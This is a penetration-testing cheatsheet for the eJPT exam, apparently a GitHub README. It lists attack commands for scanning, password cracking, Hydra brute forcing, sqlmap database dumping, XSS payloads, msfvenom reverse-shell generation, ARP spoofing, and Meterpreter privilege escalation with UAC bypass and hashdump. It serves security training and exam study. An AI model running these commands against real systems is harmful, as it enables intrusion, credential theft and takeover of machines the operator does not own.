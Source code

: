 # eJPT-Cheatsheet-Tips
This is a Cheatsheet for eJPT exam. 

### Nmap
nmap -sn 10.10.10.0/24
nmap -sV -p- -iL targets -oN nmap.initial
nmap -A -p- -iL targets -oN nmap.aggressive
nmap -p<port> --script=vuln -v <target-IP>

### fPing
fping -a -g 10.10.10.0/24 > targets 2>/dev/null

### IP Route
**Syntax**
*ip route add <Network-range> via <router-IP> dev <interface>*
eg.
ip route add 172.16.50.0/24 via 10.13.37.1 dev tap0

### John

john --wordlist=/root/Tools/wordlists/rockyou.txt --format=raw-md5

unshadow passwd shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

### dirb

dirb http://10.10.10.10/

dirb http://10.10.10.10/dir -u admin:admin

### Netcat
**Listening for reverse shell**
nc -nvlp 1234

**Banner Grabbing**
nc -nv 10.10.10.10 <port>

### SQLMap
#### Check if injection exists
sqlmap -r Post.req
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" 

#### Get database if injection Exists
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs

#### Get Tables in a Database
sqlmap -r login.req -D dbname --tables
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

#### Get data in a Database tables
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

### Hydra
**SSH Login Bruteforcing**
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh
*You can use same for FTP, just replace ssh with ftp*

### XSS
<script>alert(1)</script>
<ScRiPt>alert(1)</ScRiPt>
*This is a great filter bypass cheatsheet*
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

**HTTP POST Form**
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L /usr/share/ncrack/minimal.usr -P /root/Tools/SecLists/Passwords/Leaked-Databases/rockyou-15.txt -f -V
*You will know which wordlists to use when the time comes*

### msfvenom shells
**JSP Java Meterpreter Reverse TCP**
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

### Metasploit Meterpreter autoroute
run autoroute -s 10.10.10.0/24

### ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

### SMB Enumeration
<--Get shares, users, groups, password policy-->
smbclient -L //10.10.10.10/
enum4linux -U -M -S -P -G 10.10.10.10
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

<--Access Share-->
smbclient //10.10.10.10/share_name

### FTP Enumeration
nmap --script=ftp-anon 10.10.10.10 -p21 -v
ftp 10.10.10.10

### Meterpreter
ps
getuid
getpid
getsystem
ps -U SYSTEM
<--CHECK UAC/Privileges-->
run post/windows/gather/win_privs
<--BYPASS UAC-->
*Background the session first
exploit/windows/local/bypassuac
set session
<--After PrivEsc-->
migrate <pid>
hashdump
  
### Windows Command Line
**To search for a file starting from current directory**
dir /b/s "*.conf*
dir /b/s "*.txt*

**Check routing table**
route print
netstat -r

**Check Users**
net users


